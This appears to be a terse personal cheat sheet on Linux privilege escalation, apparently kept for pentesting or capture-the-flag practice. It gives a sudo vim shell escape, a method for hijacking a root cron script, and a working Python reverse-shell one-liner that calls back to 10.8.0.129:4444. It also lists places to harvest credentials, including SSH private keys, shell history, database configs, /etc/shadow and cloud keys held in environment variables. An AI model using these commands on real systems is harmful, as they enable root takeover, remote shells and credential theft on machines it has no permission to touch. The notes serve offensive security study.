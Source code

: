 

#### sudo  : I can use with higher priv
- sudo -l 
    - nopassword
    - I can use sudo on this user
        - vim > sudo vim -c ':!/bin/sh'


#### cron (job scheduler)
- specific date - auto execute routine
    - /etc/cron.d/
    - /etc/cron.*/ 
    - system manage 
 
- cron -l : current user cron
- ls -lahR /etc/cron* : systme's cron
- ls -lah /etc/cron*
    - abuse : revshell etc payload > php insert 


- cron -l : user too low, permissions denied
    - ls -lah /etc/cron.d system's cron 
    - cat backup : onetime-backup.py per minute with root 

```
echo "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.8.0.129',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/sh')" > /tmp/onetime-backup.py : python script. 
```
- even though I'm not root, apply to current user


#### another user SSH  private key 
/home/user/.ssh/id_rsa

#### history file
/home/user/.bash_history (.zsh_history)

#### specific service's config file 
- /var/lib/mysql/DBNAME : database 
- /etc/my.conf : mysql conf?
- /var/www/html/config.php 

#### 777perm 
```
find / -type f -perm 0777
```
- ex) /etc/shadow > read - hash cracking, wrtiable - add hash
- /etc/passwd > add user root? 

#### env var
- e.g. cloud key (AWS, Azure, GCP)
    - Miscroservice, docker, Kubernetes(K8) creds or API key, they store a lot > access 

